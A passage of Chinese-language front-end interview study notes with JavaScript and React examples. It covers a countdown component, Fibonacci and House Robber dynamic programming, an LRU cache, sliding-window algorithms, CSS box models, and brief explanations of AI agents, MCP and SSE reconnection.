    heights.current[index] = height;
    initPositions(list); // 重新计算前缀和
  }
};
✅ 渲染时传 index
{visibleData.map((item, i) => (
  <ListItem
    key={item.id}
    item={item}
    index={start + i}
    onResize={onResize}
  />
))}

## 实现一个倒计时组件 CountDown，接收一个 seconds 参数，实时显示剩余时间（如 10s），倒计时结束后显示“结束了”。

```
import React, { useState, useEffect, useRef } from 'react';

const CountDown = ({ seconds }) => {
  // 1. 状态管理：剩余时间
  const [timeLeft, setTimeLeft] = useState(seconds);
  // 2. 状态管理：是否结束（用于控制显示文案）
  const [isFinished, setIsFinished] = useState(false);
  
  // 使用 useRef 存储定时器 ID，避免闭包陷阱和内存泄漏
  const timerRef = useRef(null);

  useEffect(() => {
    // 初始化或重置时，清除旧的定时器
    if (timerRef.current) clearInterval(timerRef.current);
    
    // 重置状态
    setTimeLeft(seconds);
    setIsFinished(false);

    // 启动倒计时
    timerRef.current = setInterval(() => {
      setTimeLeft((prev) => {
        // 核心逻辑：如果时间归零
        if (prev <= 1) {
          clearInterval(timerRef.current); // 清除定时器
          setIsFinished(true); // 触发结束状态
          return 0;
        }
        return prev - 1; // 否则时间减 1
      });
    }, 1000);

    // 3. 清理副作用：组件卸载或 seconds 变化时清除定时器
    return () => {
      if (timerRef.current) clearInterval(timerRef.current);
    };
  }, [seconds]); // 依赖项：当父组件传入的秒数变化时，重新计时

  // 4. 渲染逻辑
  if (isFinished) {
    return <div>结束了</div>;
  }

  return <div>{timeLeft}s</div>;
};

export default CountDown;
```

倒计时逻辑：组件能够从一个由父组件传入的初始秒数（seconds）开始，每秒自动递减，直到归零

状态显示：能够实时向用户展示剩余的秒数。

结束状态：当倒计时结束时，界面会从显示剩余时间切换为显示“结束了”的文本。

响应式更新：利用 useState 来管理 timeLeft（剩余时间）和 isFinished（是否结束）的状态。当状态改变时，组件会自动重新渲染，更新用户界面。

副作用管理：使用 useEffect 来启动定时器，并将 seconds 作为依赖项。这意味着每当父组件传入一个新的 seconds 值时，倒计时都会自动重置并开始新一轮计时。

避免闭包陷阱：在 setInterval 的回调函数中，通过 setTimeLeft((prev) => ...) 的函数式更新方式来获取上一次的 state 值。这确保了每次递减操作都是基于最新的状态，避免了因闭包导致的计数错误。
  定时器回调捕获了初始值，导致每次更新都基于旧值计算，结果始终不变。

防止内存泄漏：使用 useRef 来存储 setInterval 返回的定时器 ID。在 useEffect 的清理函数（return 部分）中，通过 clearInterval 清除定时器。这确保了在组件卸载或 seconds 变化时，旧的定时器会被正确清理，从而防止内存泄漏。

## 斐波那契

提到斐波那契数列，最直接的思路就是递归。
F(n) = F(n-1) + F(n-2)

function fib(n) {
  if (n <= 1) return n
  return fib(n - 1) + fib(n - 2)
}

问题
调用深度 O(n) → 容易 栈溢出（stack overflow）
重复计算 → 时间复杂度 O(2ⁿ)

- Map 版 记忆化递归

// Map 作为缓存容器
const memoMap = new Map();

function fib(n) {
    if (n <= 1) return n;

    // 命中缓存直接返回
    if (memoMap.has(n)) {
        return memoMap.get(n);
    }

    const res = fib(n - 1) + fib(n - 2);
    // 存入 Map 缓存
    memoMap.set(n, res);
    return res;
}

纯暴力递归：大量重复计算，时间复杂度 O(2n)
记忆化递归：算过的子问题只算一次，时间复杂度 O(n)


- 把递归改成迭代

// 定义一个函数 fib，参数 n 代表求第 n 项斐波那契数
function fib(n) {
  // 递归/边界条件：如果 n 小于等于 1，直接返回 n（斐波那契第0项是0，第1项是1）
  if (n <= 1) return n

  // 初始化两个变量：
  // a 代表第 i-2 项斐波那契数，初始是 0（第0项）
  // b 代表第 i-1 项斐波那契数，初始是 1（第1项）
  let a = 0, b = 1

  // 从第 2 项开始，循环计算到第 n 项
  for (let i = 2; i <= n; i++) {
    // 临时变量保存当前项：当前项 = 前两项之和
    const temp = a + b
    // a 向后移动一位，变成原来的 b（即前一项）
    a = b
    // b 向后移动一位，变成刚算出的当前项
    b = temp
  }

  // 循环结束后，b 就是第 n 项斐波那契数，返回它
  return b
}

属于 动态规划（DP）的迭代写法

1. 为什么它是动态规划
动态规划核心三要素：

重叠子问题：求 f(n) 依赖 、，重复用到前面结果
最优子结构：当前项 = 前两项最优解之和
状态转移方程：f(n)=f(n−1)+f(n−2)

用 a、b 保存历史状态（缓存子问题结果）
从底向上递推（自底向上 DP）
避免了递归重复计算，就是标准 DP

- agent的工作原理
我一般把 Agent 理解为：Agent = Harness + LLM。

LLM 负责“思考和决策”，Harness 负责“执行和约束”，其中 Harness 可以拆成五个核心组件：tools、memory、context、hooks、permissions。

用户输入 → context 组织上下文 → LLM 做决策（是否调用工具） →
通过 tools 执行 → hooks 做过程控制 → memory 读写 → permissions 做安全约束 → 返回结果

AI Agent 的工作原理，本质上就是将“大模型的思考能力”与“外部工具的执行能力”通过“记忆”串联起来。
它不再是一个简单的聊天机器人，而是一个能够自主感知环境、制定计划、使用工具并自我修正的智能系统。这就是为什么它能帮你写代码、做数据分析，甚至管理复杂的业务流程的原因。

## .mcp server和mcp client各自有什么特点

MCP全称是模型上下文协议，由Anthropic公司推出。它如同AI界的“USB-C接口”，通过标准化连接，解决了大模型无法直接调用外部工具和数据的问题。


- mcp 分成哪几方？
  1. MCP hosts
  Cursor 集成了大模型的 Agent
  2. MCP clients
  智能调度层，结合 LLM 做语义决策并发起调用
  mcp 配置列表， 预先加载， llm 语义加载相应mcp 

  3. MCP Server
  MCP Server 就是被动的“工具提供方”，它封装了具体的数据源或功能（如本地文件、数据库、API），在后台时刻准备着响应 Client 的请求并返回结果。

- SSE断连重传处理
  sse-retry
  - SSE 为什么会断
  SSE 是长连接，长时间没数据、网不稳、服务端嫌你挂太久，就会自动断掉。
  - 怎么处理
  图片
  服务端发送：
  id: 123
  data: hello
  客户端断连后会自动带上：
  Last-Event-ID: 123

  正确的“断连重传设计”

  服务端要能根据 Last-Event-ID 重新推数据：

  ```
  app.get('/events', (req, res) => {
    const lastId = req.headers['last-event-id'];

    // 从消息队列 / 数据库中补发
    const missedEvents = getEventsAfter(lastId);

    missedEvents.forEach(event => {
      res.write(`id: ${event.id}\n`);
      res.write(`data: ${event.data}\n\n`);
    });
  });
  ```
  客户端：自动重连 + 幂等处理
  幂等就是防止重复干活、保证多刷几次结果也不变。
  浏览器原生：

const es = new EventSource('/events');

es.onmessage = (e) => {
  console.log(e.data);
};

## 向Ilm聊天框中提出一个问题(我的微信小店今天有点跌幅，分析一下问题)的整个
agent响应流程，越详细越好


结合你图里的 Harness 结构，逻辑会非常完整：

用户在聊天框输入“微信小店今天跌幅”，Agent 首先通过 context + memory 做意图识别：结合历史对话和用户店铺信息，判断这是一个“电商经营分析”任务，同时补充上下文（时间范围、店铺维度等）。

接着进入 Model（LLM）决策阶段：LLM 基于当前 context，规划调用 MCP 工具，决定先查数据再分析。

在 tools 层，MCP Client 调用数据库工具，从 Server 拉取订单、流量、转化率、客单价等核心指标数据。

数据返回后，触发 数据分析 skill：该 skill 由 skill.md 定义能力边界（GMV、转化率、ROI 等），并通过渐进式加载补充指标口径、分析原则等资源，避免上下文过大。

具体计算不由 LLM 完成，而是通过 scripts（JS/Python） 做环比、同比、漏斗计算，保证结果准确。

在执行过程中，hooks 负责日志、异常处理和重试；permissions 控制数据访问范围（比如只能查当前店铺）。

最后 LLM 基于计算结果做归因分析（流量下降还是转化问题），并通过流式输出边分析边返回结论和优化建议，形成完整闭环。，

## LRU Cache 

LRU（Least Recently Used）是最近最少使用缓存策略：优先淘汰“最久没被访问”的数据。

LRU = 哈希表 + 双向链表 
哈希表：O(1) 查找
双向链表：维护访问顺序

```
// 1. 节点构造函数
function Node(key, value) {
  this.key = key;
  this.value = value;
  this.prev = null;
  this.next = null;
}

// 2. LRU 构造函数
function LRUCache(capacity) {
  this.capacity = capacity;
  // O(1)
  this.map = new Map();

  // 虚拟头尾
  this.head = new Node(0, 0);
  this.tail = new Node(0, 0);
  this.head.next = this.tail;
  this.tail.prev = this.head;
}

// ==================== 所有方法挂在 prototype 上 ====================

// 添加节点到头部
LRUCache.prototype.addToHead = function (node) {
  node.next = this.head.next;
  node.prev = this.head;
  this.head.next.prev = node;
  this.head.next = node;
};

// 删除节点
LRUCache.prototype.removeNode = function (node) {
  node.prev.next = node.next;
  node.next.prev = node.prev;
};

// 移到头部
LRUCache.prototype.moveToHead = function (node) {
  this.removeNode(node);
  this.addToHead(node);
};

// 删除尾部
LRUCache.prototype.removeTail = function () {
  const tail = this.tail.prev;
  this.removeNode(tail);
  return tail;
};

// get 方法
LRUCache.prototype.get = function (key) {
  if (!this.map.has(key)) return -1;
  const node = this.map.get(key);
  this.moveToHead(node);
  return node.value;
};

// put 方法
LRUCache.prototype.put = function (key, value) {
  if (this.map.has(key)) {
    const node = this.map.get(key);
    node.value = value;
    this.moveToHead(node);
  } else {
    const node = new Node(key, value);
    this.map.set(key, node);
    this.addToHead(node);

    if (this.map.size > this.capacity) {
      const removeNode = this.removeTail();
      this.map.delete(removeNode.key);
    }
  }
};
```

## House Robber"（打家劫舍）

主要考察动态规划（Dynamic Programming）在不同数据结构（数组、环形数组、二叉树）上的应用。

### 何为动态规划

动态规划是一种通过将复杂问题拆解为相互重叠（千里之行，始于足下）的子问题，并存储子问题的解（自底向上）以避免重复计算，从而高效求解最优解的算法思想。

- 三大核心特征

1. 重叠子问题
大问题会重复用到很多相同的小子问题结果，重复计算浪费性能，需要缓存。
2. 最优子结构
大问题的最优解，可以由若干个子问题的最优解推导出来。
3. 状态转移方程
能写出公式：用前面已算好的状态，推导出当前状态。

- 一次爬 1 阶 或 2 阶，爬到第 n 阶有多少种方法？

1. 先推结论（状态）

dp[i] = 爬到第 i 阶的总方法数

2. 状态转移方程

想要到第 i 阶：
要么从 i-1 走 1 步
要么从 i-2 走 2 步

dp[i]=dp[i−1]+dp[i−2]

3. 初始边界

dp[1]=1
dp[2]=2

三、用爬楼梯对应 DP 三大特征

1. 重叠子问题 ✅
算 dp[5] 要 dp[4],dp[3]算 dp[4] 要 dp[3],dp[2]

dp[3] 被反复用到，就是重叠子问题，暴力递归会重复算爆掉，DP 缓存结果。

2. 最优子结构 ✅
爬到第 5 阶的全部走法 =爬到第 4 阶的全部走法 + 爬到第 3 阶的全部走法

3. 状态转移方程 ✅
固定公式：dp[i]=dp[i−1]+dp[i−2]每一项只依赖前面两个状态，递推计算。

function climbStairs(n) {
  if (n <= 2) return n
  // dp[i-2]  dp[i-1]
  let a = 1, b = 2
  for (let i = 3; i <= n; i++) {
    // 状态转移
    let cur = a + b
    a = b
    b = cur
  }
  return b
}

- 打家劫舍

你是一个专业的小偷，计划偷窃沿街的房屋。每间房内都藏有一定的现金，影响你偷窃的唯一制约因素就是相邻的房屋装有相互连通的防盗系统，如果两间相邻的房屋在同一晚上被小偷闯入，系统会自动报警。

给定一个代表每个房屋存放金额的非负整数数组，计算你 不触动警报装置的情况下 ，一夜之内能够偷窃到的最高金额。

- 最值问题用dp 

假设你现在正站在第 i 间房子门口，手里拿着麻袋，心里在盘算：“这第 i 间房，我到底是进还是不进？”

其实你的大脑里只需要做一个简单的二选一：

选项 A：我不偷这一家（跳过）

心态：这家太穷了，或者我怕离上一家太近被抓。
后果：既然这家不偷，那我现在的总钱数，就完全等于“我在上一家（第 i-1 间）门口时兜里已经有的钱”。

口语版：现在的钱 = 刚才的钱

选项 B：我偷这一家（动手）

心态：这家肥得流油！必须拿！

后果：既然拿了这家，为了保命，上一家（第 i-1 间）我就绝对不能动。所以我现在的钱，等于“上上家（第 i-2 间）攒下的钱” 加上 “这家刚抢到的钱”。

口语版：现在的钱 = 前天的钱 + 今天的钱

dp[i]=max(dp[i−1], dp[i−2]+nums[i])

你在计算“偷到第 i 家”的最大金额时，发现需要先算出“偷到第 i-1 家”的金额

```
function rob(nums) {
    if (!nums.length) return 0;
    let prev2 = 0;   // dp[i-2]
    let prev1 = 0;   // dp[i-1]

    for (const num of nums) {
        // 核心公式：dp[i] = max(dp[i-1], dp[i-2] + num)
        const curr = Math.max(prev1, prev2 + num);
        prev2 = prev1;
        prev1 = curr;
    }
    return prev1;
}
```

- House Robber II（进阶：环形）
你是一个专业的小偷，计划偷窃沿街的房屋，每间房内都藏有一定的现金。这个地方所有的房屋都 围成一圈 ，这意味着第一个房屋和最后一个房屋是紧挨着的。同时，相邻的房屋装有相互连通的防盗系统，如果两间相邻的房屋在同一晚上被小偷闯入，系统会自动报警 。

给定一个代表每个房屋存放金额的非负整数数组，计算你 在不触动警报装置的情况下 ，今晚能够偷窃到的最高金额。

- 环形版
第一个房子 和 最后一个房子 不能同时偷

- 环形问题核心解题思路
环形冲突，拆成两个普通直线 DP 问题，取最大值：
1. 情况 A：不偷第一间 → 只打劫 nums[1 ~ 末尾]
2. 情况 B：不偷最后一间 → 只打劫 nums[0 ~ 倒数第二位]

最终答案：max(情况A结果, 情况B结果)

3、区别总结（面试直接背）
普通版：线性排列，首尾无约束，正常一维 DP 遍历一遍即可。
环形版：首尾相连，首尾二选一、不能同时选，必须拆成两个区间分别 DP，再取最大。

4. 完整可运行代码（JS）

```
// 普通直线打家劫舍工具函数
function robRange(nums) {
  let prev1 = 0, prev2 = 0;
  for (let num of nums) {
    const curr = Math.max(prev1, prev2 + num);
    prev2 = prev1;
    prev1 = curr;
  }
  return prev1;
}

// 环形房屋 主函数
function rob(nums) {
  const n = nums.length;
  if (n === 1) return nums[0];
  
  // 两种情况
  // 1. 不要第一个 [1, end]
  const res1 = robRange(nums.slice(1));
  // 2. 不要最后一个 [0, end-1]
  const res2 = robRange(nums.slice(0, n - 1));

  return Math.max(res1, res2);
}

// 测试
console.log(rob([2,3,2])); // 3
console.log(rob([1,2,3,1])); // 4
```
普通版：房子排成一条线，随便偷，只要不偷相邻；环形版：房子围成圈，头和尾挨在一起，不能都偷，所以分成「不要头」和「不要尾」两种情况，分别跑 DP，选钱多的那个。

## House Robber III（进阶：树形）

除了 root 之外，每栋房子有且只有一个“父“房子与之相连。一番侦察之后，聪明的小偷意识到“这个地方的所有房屋的排列类似于一棵二叉树”。 如果 两个直接相连的房子在同一天晚上被打劫 ，房屋将自动报警。

给定二叉树的 root 。返回 在不触动警报的情况下 ，小偷能够盗取的最高金额 。

一、和前两版的区别
直线版：数组，线性相邻不能偷
环形版：首尾相连，多一个约束
二叉树版：父子节点直接相连，不能同时偷
偷了父节点 → 两个孩子都不能偷
不偷父节点 → 两个孩子可以选偷或不偷，取最大

二、核心思路（树形 DP 万能公式）
每个节点返回 两个值：
rob：偷当前节点，能获得的最大钱
notRob：不偷当前节点，能获得的最大钱

状态转移
偷当前节点rob = left.notRob + right.notRob + cur.val（孩子都不能偷）
不偷当前节点notRob = max(left.rob, left.notRob) + max(right.rob, right.notRob)（左右孩子随便选，各取最大）

树形 DP + 后序遍历：每个节点返回「偷 / 不偷」两种状态，自底向上推导，最后取根节点的最大值。


```
// 二叉树节点定义
function TreeNode(val) {
  this.val = val;
  this.left = null;
  this.right = null;
}

function rob(root) {
  // dfs 返回 [偷当前节点最大钱，不偷当前节点最大钱]
  const dfs = (node) => {
    if (!node) return [0, 0];

    const left = dfs(node.left);   // 左子树结果
    const right = dfs(node.right); // 右子树结果

    // 1. 偷当前：孩子必须不偷
    const rob = node.val + left[1] + right[1]; // 1 代表不偷 
    // 2. 不偷当前：孩子可偷可不偷，取最大
    // 0 代表偷
    const notRob = Math.max(left[0], left[1]) + Math.max(right[0], right[1]);

    return [rob, notRob];
  };

  const res = dfs(root);
  return Math.max(res[0], res[1]);
}
```

## 数组链表计算机底层怎么做的，两者增删改查的特点

### 数组和链表本质区别在于内存存储方式不同。

1. 数组（Array）

连续内存

就像一排排座位，必须挨着坐

let arr = [10, 20, 30];

内存里其实是：

[10][20][30]

特点：

可以通过下标直接算地址（比如 base + index * size）
所以访问非常快（O(1)）

2. 链表（Linked List）

非连续内存

每个节点存：数据 + 下一个节点地址

[10 | next] -> [20 | next] -> [30 | null]

特点：

靠“指针”串起来

找数据必须从头一个个走（O(n)）

### 增删改查对比（重点）

> 数组适合查，链表适合改。

查某个元素 数组 O(1)  链表 O(n)
数组支持随机访问，链表必须遍历。

- 增（插入）

数组：
需要挪位置（整体后移）
O(n)

链表：
改指针就行
O(1)（前提是你已经找到位置）

链表插入只需要改指针，不需要移动数据。

➖ 删

删除 数组 O(n) 链表 O(1)

数组：后面元素要前移
链表：改 next 指针

改（更新）

修改 数组 O(1) 链表 O(n)

因为链表要先找到节点

总结

数组是连续存储 + 随机访问快 + 插入删除慢，
链表是非连续存储 + 插入删除快 + 查询慢。

数组适合场景

1. 高频查询
查商品列表
数据读取频繁，优先用数组。

2. 需要索引的场景
分页、排序、二分查找
二分查找必须数组
3. 内存敏感场景
数组更紧凑（没有额外指针）

链表适合场景

频繁插入删除

👉 比如：

评论流（插入新评论）
LRU缓存 
HashMap + 双向链表
LRU 用链表是因为它需要频繁移动节点的位置。

- 不确定长度
  实时日志


实际工程中 JS 的数组是动态数组（类似 ArrayList），底层会扩容，不是完全静态数组。

### 为什么链表删除是 O(1)？JS 真的有链表吗？

链表删除是 O(1)，因为只需修改前驱节点指针，无需移动元素；JS 没有原生链表，需要用对象手动实现。

## 哈希表，栈和队列特点

### 栈是**后进先出（LIFO）**的数据结构。

特点
push / pop：O(1)
只能操作一端（栈顶）

- 括号匹配
({[]})

- 函数调用栈
JS 执行函数本质就是栈

- 撤销 / 回退
浏览器路由前进返回

涉及“最近操作优先处理”，基本就是栈。

### 二、 队列（Queue）

队列是先进先出（FIFO）。

enqueue / dequeue：O(1)
一头进，一头出

场景

👉 1️⃣ 任务调度
消息队列
请求排队

2. BFS（广度优先搜索）
  讲下深度优先 广度优先
3. 异步任务队列

涉及“排队处理、顺序消费”，就是队列。

### 哈希表（HashMap）

哈希表本质是用哈希函数做映射，实现接近 O(1) 的查找。

哈希函数就像图书馆的图书分类编码。它不让你一本本翻，而是直接根据书名算出一个书架号，让你能瞬间定位到书的位置。

特点
查 / 增 / 删：平均 O(1)
无序（一般情况）
有哈希冲突问题  
  就像两本不同的书，算出来的书架号竟然一样，都抢同一个位置。

- 快速查找
map.get(userId)
用户信息缓存
登录态校验
- 去重 / 计数
map.set(num, count + 1)

统计词频
两数之和

只要涉及“快速查一个东西在不在”，优先考虑哈希表。

总结

哈希表解决的是“查得快”，
栈解决的是“顺序反转”，
队列解决的是“顺序执行”。

### 有效的括号

这个题我会用**栈（Stack）**来做，因为它是一个典型的“最近的括号先匹配”的问题。

因为栈是后进先出，正好符合括号“最近的先闭合”这个特点。

遇到左括号就入栈，遇到右括号就和栈顶做匹配。

1️⃣ 遍历字符串
2️⃣ 如果是左括号 ( { [ → 入栈
3️⃣ 如果是右括号：

先看栈是不是空（空直接 false）
再看栈顶是不是对应的左括号
是 → 弹出
不是 → false

最后判断栈是否为空：
空 → 有效
不空 → 无效

时间复杂度是 O(n)，因为只遍历一遍；
空间复杂度是 O(n)，最坏情况全部是左括号。

```js
function isValid(s) {
  const stack = [];
  const map = {
    ')': '(',
    ']': '[',
    '}': '{'
  };

  for (let ch of s) {
    if (ch === '(' || ch === '[' || ch === '{') {
      stack.push(ch);
    } else {
      if (!stack.length || stack.pop() !== map[ch]) {
        return false;
      }
    }
  }

  return stack.length === 0;
}
```

## 说settimeout用var和let打印输出，实现不改用var声明变量实现跟let一样的效果

考察作用域与闭包：var 无块级作用域导致共享同一变量，let 每次循环独立；以及是否会用 IIFE / setTimeout 第三个参数等方式修复。

```
for (var i = 0; i < 3; i++) {
  setTimeout(() => console.log(i), 0);
}

for (let i = 0; i < 3; i++) {
  setTimeout(() => console.log(i), 0);
}
// 用 IIFE
for (var i = 0; i < 3; i++) {
  (function(i) {
    setTimeout(() => console.log(i), 0);
  })(i);
}

// 用 setTimeout 第三个参数
for (var i = 0; i < 3; i++) {
  setTimeout((i) => console.log(i), 0, i);
}
//参数直接传值，不走闭包

// 用闭包函数
function fn(i) {
  setTimeout(() => console.log(i), 0);
}

for (var i = 0; i < 3; i++) {
  fn(i);
}
```
用 var 的问题是共享同一个变量，可以通过 IIFE 或参数传值制造“独立作用域”，达到和 let 一样效果。

## css盒模型，怎么声明

盒模型可以理解为：浏览器把每个元素都当成一个“盒子”来渲染。

盒子从里到外是四层：

content → padding → border → margin

内容在最里面，padding 是内边距，border 是边框，margin 是外边距。

### 标准盒模型 vs 怪异盒模型

两者的核心区别在于：width / height 计算方式不同。

1. 标准盒模型（默认）

width 只包含 content，不包含 padding 和 border

实际占位：

总宽度 = width + padding + border

- 怪异盒模型（IE盒模型）

width = content + padding + border

总宽度 = width（已经包含所有）

怎么声明

用 box-sizing 属性来控制盒模型。

box-sizing: content-box;  默认

怪异盒模型 box-sizing: border-box; 

因为它更符合直觉，width 就是“最终看到的宽度”，不需要再手动计算 padding 和 border。

实际开发常见写法：

* {
  box-sizing: border-box;
}

### 结合场景
场景 1：布局开发

用 border-box 可以避免元素撑开容器，特别适合做响应式布局。

场景 2：组件开发

设计稿给 100px，直接写 width:100px 就是最终大小。

盒模型本质是元素的尺寸计算规则，标准盒模型是“内容为主”，怪异盒模型是“整体为主”，开发中通常用 box-sizing: border-box 来简化布局计算。

## flex 水平垂直居中

```
.parent {
  display: flex;
  justify-content: center; /* 水平居中 */
  align-items: center;     /* 垂直居中 */
  height: 200px;
}
```

## react 中 useEffect uselayouteffect 区别，uselayouteffect使用的场景

useEffect 在浏览器绘制后异步执行，不阻塞渲染；useLayoutEffect 在绘制前同步执行，会阻塞页面，适合做 DOM 测量与布局调整。

import { useLayoutEffect, useRef, useState } from "react";

export default function Demo() {
  const boxRef = useRef(null);
  const [width, setWidth] = useState(0);

  useLayoutEffect(() => {
    const rect = boxRef.current.getBoundingClientRect();
    setWidth(rect.width);
  }, []);

  return (
    <div>
      <div
        ref={boxRef}
        style={{ width: "200px", height: "100px", background: "red" }}
      >
        Box
      </div>

      <p>宽度：{width}px</p>
    </div>
  );
}

因为它在DOM 更新后、浏览器绘制前执行 
所以流程是：
DOM 更新
useLayoutEffect 读取布局
立即 setState 修正
浏览器再绘制
结果：
不会闪一下再变
UI 更稳定

如果用 useEffect
先渲染默认值 → 页面闪一下 → 再更新宽度

用户能看到“跳变”

## 长度最小的子数组

给定一个含有 n 个正整数的数组和一个正整数 target 。

找出该数组中满足其总和大于等于 target 的长度最小的 子数组 [numsl, numsl+1, ..., numsr-1, numsr] ，并返回其长度。如果不存在符合条件的子数组，返回 0 。

### 滑动窗口

滑动窗口就是用双指针维护一个动态区间，通过不断扩展和收缩窗口，在 O(n) 时间内解决区间问题。

- 为什么用滑动窗口

因为它可以把很多 O(n²) 的问题优化成 O(n)。

- 用大白话解释

把数组想成一条路，然后用两个指针当成“窗口的左右边界”。
right 负责往右扩张（找更多元素）
left 负责收缩（去掉不满足条件的部分）

这个窗口一直在“滑动”，所以叫滑动窗口。


### 解题思路
用滑动窗口维护区间和，右指针扩展累加，超过target后左指针收缩，更新最短长度，最终得到最小满足条件子数组。

```
function minSubArrayLen(target, nums) {
  let left = 0;          // 左指针：窗口起点
  let sum = 0;           // 当前窗口的和
  let minLen = Infinity; // 记录最小长度

  // 右指针不断扩展窗口
  for (let right = 0; right < nums.length; right++) {
    sum += nums[right]; // 把当前元素加入窗口

    // 当窗口和 >= target，开始收缩左边界
    while (sum >= target) {
      // 更新最小长度
      minLen = Math.min(minLen, right - left + 1);

      // 左边界右移，尝试缩小窗口
      sum -= nums[left];
      left++;
    }
  }

  // 如果没找到符合条件的子数组，返回 0
  return minLen === Infinity ? 0 : minLen;
}
```

### 滑动窗口里的单调队列

滑动窗口就是：用一个“框”，框住一段数据，然后这个框不断往右移动。

1 3 -1 -3 5 3 6 7

你设一个长度 k=3 的窗口：

[1 3 -1] → [3 -1 -3] → [-1 -3 5] 

本质：控制一段连续区间

假设你每次都要问一句：

“这个框里最大值是多少？”

最笨的方法是：

每次窗口一动
把框里的3个数重新找最大值

这样很慢（O(nk)）

三、单调队列是干嘛的

单调队列就是：帮你把“框里的数”排好队，只留有用的。

用一句大白话：

不重要的数字提前被“踢掉”，队列里只保留可能成为最大值的候选人。

四、举个超直觉例子

窗口是：

[1, 3, -1]

我们只关心最大值：

👉 3 比 1 大
👉 1 永远不可能当最大值了 → 直接不要

所以队列变成：

[3, -1]（但 -1 也没用）
最终只保留 3

单调队列 = “只保留有可能成为答案的数，其他的提前淘汰”

### 滑动窗口最大值

给你一个整数数组 nums，有一个大小为 k 的滑动窗口从数组的最左侧移动到数组的最右侧。你只可以看到在滑动窗口内的 k 个数字。滑动窗口每次只向右移动一位。

返回 滑动窗口中的最大值 。

这题本质是：在一个固定大小的滑动窗口里，每次都要找最大值。

如果暴力做：

每个窗口都遍历一次 → O(nk)，会超时

👉 优化思路是：

用单调递减队列维护窗口内的“候选最大值”。

核心思想

我用一个队列来存“有可能成为最大值的元素下标”，并且让队列里的值保持递减。

当新元素进来时：

1️⃣ 把队尾所有比它小的元素删掉（因为它们永远不可能成为最大值）
2️⃣ 当前元素入队
3️⃣ 如果队头已经不在窗口范围内，移出队头
4️⃣ 队头永远是当前窗口最大值

二、为什么要单调队列？

因为滑动窗口本身只管“范围”，但最大值需要高效维护。

👉 单调队列的作用：

保证队头永远是最大值
每个元素只进出一次 → O(n)

```
function maxSlidingWindow(nums, k) {
  const deque = []; // 存的是“下标”，不是值
  const result = [];

  for (let i = 0; i < nums.length; i++) {

    // 1️⃣ 如果队头已经滑出窗口范围，就移除
    if (deque.length && deque[0] <= i - k) {
      deque.shift();
    }

    // 2️⃣ 维护单调递减队列
    // 把所有比当前值小的都踢掉（它们没资格当最大值）
    while (
      deque.length &&
      nums[deque[deque.length - 1]] < nums[i]
    ) {
      deque.pop();
    }

    // 3️⃣ 当前元素入队（存下标）
    deque.push(i);

    // 4️⃣ 当窗口形成后，记录最大值（队头）
    if (i >= k - 1) {
      result.push(nums[deque[0]]);
    }
  }

  return result;
}
```

## 平时怎么学习前端的，怎么提升编程能力

- 我会先通过经典书把基础打牢，比如《你不知道的JavaScript》。
  理解 JS 的底层机制（作用域、闭包、原型）
  而不是只停留在 API 使用
  我比较重视底层原理，因为它决定了后面框架理解的深度。
- 平时我会经常看掘金（juejin）这类技术社区。
  - 了解前端新技术趋势
  - 看别人踩坑总结
  - 补齐工程经验
  社区更多是帮助我建立工程视角，而不是只停留在书本知识。
- 我会定期写博客，把学到的东西讲出来。
  - 强迫自己真正理解
  - 能发现知识盲点
  - 形成知识体系
  我觉得“能讲清楚”才算真正掌握。

- 我会去 GitHub 看一些优秀项目源码，比如 Zustand。
  - 学习状态管理设计思想
  - 看别人如何做极简架构
  - 理解性能和设计权衡

  我不仅会用，还会看它为什么这么设计。

- 我也会用 NotebookLM 或类似工具来帮助拆解知识，比如做结构化笔记、快速整理源码逻辑。

### 核心能力提升方式
- 多写代码（leetcode刷题 + 古法编程写项目）
- Vibe Coding 能力 
- AI 全链路 一人复杂项目开发能力 

## ai的来临，还有必要去学习老知识例如js，react这些知识吗

我认为 AI 的出现并不会降低学习 JS、React 这些基础知识的必要性，反而对基础要求更高了。

因为 AI 现在确实可以帮我们生成代码，但它生成的是“结果”，不是“质量保证”。

AI 生成项目的不在于生成代码的速度， 而在于使用者的思考质量，给llm 下达的清晰指令， 这需要对js/react 了解越多越好

AI 会写代码，但不一定写对适合的架构
AI 能补功能，但不理解业务边界
AI 可以生成方案，但可能引入隐性性能问题或“屎山结构”

所以 JS、React 这些基础知识，其实变成了“校验 AI 输出质量的能力”。

ai 生成的每一行代码， 我么都要用基础知识审查，不能直接相信ai生成的代码

我现在的使用方式是：AI 负责提高效率，但我负责做“架构和质量控制”。

所以在 AI 时代，基础知识不是过时了，而是从“手写能力”变成了“判断能力”。
会不会 JS、React 不只是用来写代码，而是用来判断 AI 写的代码是否可靠。

## K个一组翻转链表


给你链表的头节点 head ，每 k 个节点一组进行翻转，请你返回修改后的链表。

k 是一个正整数，它的值小于或等于链表的长度。如果节点总数不是 k 的整数倍，那么请将最后剩余的节点保持原有顺序。

你不能只是单纯的改变节点内部的值，而是需要实际进行节点交换。

分组反转

三步走： 
- 先数够 k 个节点，把这截链表摘下来反转；
- 然后把反转后的这段接回主链表；
- 最后处理剩下的，不够 k 个就直接保留。

dummy 节点 用来简化边界处理

难在指针满天飞（飞刀），脑子容易绕晕。最坑的是反转完得把“断掉”的线重新连上，还要小心最后不够 k 个别乱动。


### 第一步：准备好“工具人”
1 -> 2 -> 3 -> 4 -> 5，k=2
dummy (虚拟头节点)：一个“工具人”节点，站在链表最前面，专门用来简化对头节点的操作。

pre (前序节点)：永远指向当前待处理分组的前一个节点。它负责在反转后，把新头接上。

end (末尾节点)：一个“侦察兵”，负责向前走 k 步，帮我们找到当前分组的最后一个节点。

初始状态是这样的：
dummy -> 1 -> 2 -> 3 -> 4 -> 5
pre 和 end 都指向 dummy。

第二步：“侦察兵” end 出发数数
我们的目标是找到第一组（1, 2）。让 end 指针从 pre 的位置开始，向前走 k 步（这里是2步）。
1. end 走第1步，指向节点 1。
2. end 走第2步，指向节点 2。

好了，end 停在了节点 2 上，说明我们成功找到了第一组 k=2 个节点！

第三步：记下关键位置，准备“摘除”

现在我们已经圈定了范围，但直接动手会弄丢后面的链表，所以得先记下两个关键位置：
start (起始节点)：pre 的下一个节点，也就是当前组的第一个节点 1。反转后，它会变成这一组的尾巴。
nextGroup (下一组起点)：end 的下一个节点，也就是 3。这是我们反转时不能弄丢的“后半段”链表。

第四步：执行“摘除”操作
最关键的一步来了！为了能把 [1 -> 2] 这段独立出来反转，我们需要暂时切断它和后面链表的联系。
操作就是：end.next = null
执行后，链表变成了两部分：
待处理部分：dummy -> 1 -> 2 -> null
剩余部分：3 -> 4 -> 5 (由 nextGroup 指针牢牢抓住)
